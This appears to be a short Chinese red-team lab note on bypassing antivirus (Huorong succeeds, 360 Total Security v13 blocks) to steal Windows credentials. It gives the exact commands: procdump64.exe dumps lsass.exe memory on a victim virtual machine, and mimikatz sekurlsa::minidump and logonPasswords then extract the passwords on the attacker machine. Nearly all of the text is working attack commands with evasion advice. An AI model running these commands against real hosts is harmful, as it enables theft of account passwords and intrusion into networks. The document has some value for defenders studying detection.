 ### 结论
能过火绒  
不能过360安全卫士 v13

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 过火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe到受害机后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe的内存到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
下载提取到的lsass.dmp到攻击机的64位mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 过360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
